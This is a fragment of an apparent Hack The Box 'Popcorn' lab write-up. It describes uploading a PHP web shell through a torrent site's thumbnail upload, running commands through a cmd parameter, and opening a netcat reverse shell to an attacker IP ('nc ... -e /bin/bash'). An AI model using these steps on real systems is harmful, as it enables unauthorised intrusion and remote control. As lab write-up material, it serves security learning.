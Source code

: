 - filename: `http://popcorn.htb/torrent/thumbnail.php?gd=2&src=./upload/5afea4a13805186f5a7aa8fa1762fc14ffb68ac7.jpg&maxw=96` and file location: `http://popcorn.htb/torrent/upload/`

- **EXP Process**: upload a php file -> visit using web's upload directory -> rshell command -> shell

![image-20231229222233620](./Popcorn.assets/image-20231229222233620.png)

- POC: `http://popcorn.htb/torrent/upload/5afea4a13805186f5a7aa8fa1762fc14ffb68ac7.php?cmd=id`

![image-20231229222246348](./Popcorn.assets/image-20231229222246348.png)

- which nc -> yes -> `?cmd=nc 10.10.14.39 1234 -e /bin/bash`

![image-20231229222302123](./Popcorn.assets/image-20231229222302123.png)
